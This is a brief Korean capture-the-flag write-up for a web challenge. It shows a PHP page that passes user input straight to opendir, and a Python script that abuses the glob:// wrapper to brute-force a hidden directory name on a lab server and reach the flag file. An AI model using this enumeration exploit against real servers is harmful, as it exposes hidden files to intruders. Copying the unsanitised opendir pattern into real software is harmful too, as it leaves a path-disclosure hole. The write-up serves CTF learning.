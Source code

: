 # League Of Hackers (ARGOS): CMS(200)

문제 소스는 `robots.txt`에 가면 구할 수 있다.
![](./img/cap1.png)

`view.php`를 보게되면 `opendir`하는 것을 볼 수 있다.

```php
<?php
$dir = $_GET['n'];
$dh = opendir($dir);
$txt = array();
while($file=readdir($dh)) {
	echo "Searching...<br>";
	if(substr($file,-3)=="txt") {
		$txt[] = $file;
	}
}
@closedir($dh);
echo "<br><b>[TXT list]</b><br>";
foreach($txt as $data) {
	echo $data."<br>";
}
?>
```

`opendir`은 `glob`를 사용할 수 있다. 이걸 이용해서 와일드 마스크를 적용하며 `flag`파일을 찾으면 된다.

![](./img/cap2.png)


```python
import requests

table = '_0123456789abcdefghijklmnopqrstuvwxyz'
result = 'h'
while True:
    for ch in table:
        r = requests.get('http://192.168.101.202:62804/view.php?n=glob://{}*'.format(result + ch))

        if r.text.find('Searching...') != -1:
            result += ch
            print result
            break
    else:
        break
```

위 코드로 `h1dd3nforf14gm4n`를 찾을 수 있었다.

![](./img/cap3.png)

`flag.txt`를 찾았다.

![](./img/cap4.png)

